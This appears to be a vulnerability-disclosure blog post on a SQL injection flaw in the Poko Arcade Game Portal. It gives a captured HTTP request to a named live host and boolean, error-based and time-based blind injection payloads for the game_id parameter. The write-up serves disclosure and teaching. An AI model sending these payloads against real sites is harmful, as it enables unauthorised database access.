 ```yaml
---
date: 2025-02-07
layout: page
title: "Fourth Exploit Of The Month - Poko Arcade Game Portal SQL Injection"
tags: [vulnerability research, exploit development]
categories: [CVE, Exploit Development, Vulnerability Research]
image: https://i.pinimg.com/originals/a6/1a/70/a61a7078dbdbe888c3b1704abeb43d09.gif
---
```

![img-description](https://i.pinimg.com/originals/a6/1a/70/a61a7078dbdbe888c3b1704abeb43d09.gif)

Here's the exploit code
[PacketStorm Poko Arcade Game Portal SQL Injection](https://packetstorm.news/files/id/189587/)

<h2>SQL Injection Chronicles: Breaking into the Poko Arcade Game Portal</h2>

<h3>Intro</h3>
What’s better than beating the high score in an arcade game? Hacking the website itself! In a recent vulnerability hunt, I stumbled upon a juicy SQL Injection (SQLi) flaw in the Poko Arcade Game Portal. Let’s break it down.


<h2>Exploitation:</h2>
Digging deeper, I crafted some requests and tested various payloads to assess the vulnerability.

<h3>Request</h3>
```
POST /xhr/report.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Accept: */*
x-requested-with: XMLHttpRequest
Cookie: PHPSESSID=77ugk4bmujg32iur8vtthovpu2
Content-Length: 328
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Host: poko.mvnstore.in
Connection: Keep-alive

game_id=1&game_name=Barbies%20Sketch&problem=e
```
<h2>Parameter & Payloads</h2>

Parameter: game_id (POST)

Boolean-based blind payload:

```
game_id=(SELECT (CASE WHEN (5478=5478) THEN 1 ELSE (SELECT 5855 UNION SELECT 3253) END))&game_name=Barbies Sketch&problem=e
```
Error-based payload:

```
game_id=1 AND EXTRACTVALUE(6033,CONCAT(0x5c,0x7171627a71,(SELECT (ELT(6033=6033,1))),0x716a766b71))&game_name=Barbies Sketch&problem=e
```
Time-Based blind payload:

```
game_id=1 AND (SELECT 8414 FROM (SELECT(SLEEP(5)))DwLw)&game_name=Barbies Sketch&problem=e
```

SQL Injection vulnerabilities are still out there, lurking in poorly secured web apps. It’s a reminder that input validation and prepared statements are critical, unless you enjoy watching your arcade turn into a hacker’s playground.

Patch fast, play safe!
